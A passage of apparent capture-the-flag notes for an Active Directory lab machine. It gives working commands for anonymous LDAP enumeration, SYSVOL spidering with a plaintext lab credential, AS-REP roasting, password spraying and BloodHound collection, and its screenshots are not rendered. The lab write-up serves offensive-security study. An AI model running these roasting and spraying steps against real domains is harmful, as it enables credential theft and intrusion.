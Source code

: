 ![image.png](image%206.png)

### Port 389/3268

```bash
ldapsearch -H ldap://$IP -x -s base -b '' "(objectClass=*)" "*" +
```

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=<RHOST>,DC=local" 
```

### Digging to SYSVOL Share

Digging SYSVOL share I don’t se `Registry.xml` file

```powershell
sudo nxc smb $IP -u olivia -p 'ichliebedich' -M spider_plus --share 'SYSVOL'
```

![image.png](image%207.png)

## Initial Attack Vectors

### AS-REP Roasting

```bash
impacket-GetNPUsers -dc-ip $IP administrator.htb/olivia
```

![image.png](image%208.png)

### Password Spraying

- [x]  make a userlist (obtain a userlist)
- [x]  use same passwords as usernames, reverse of them make up passwords of the seasons and current year

```powershell
sudo nxc smb $IP -u users -p 'ichliebedich' --continue-on-success
```

![image.png](image%209.png)

## Post-Compromise Enumeration

### BloodHound

```powershell
.\SharpHound.exe -c All --zipfilename adminisrtator-AD
sudo neo4j start 
bloodhound
```
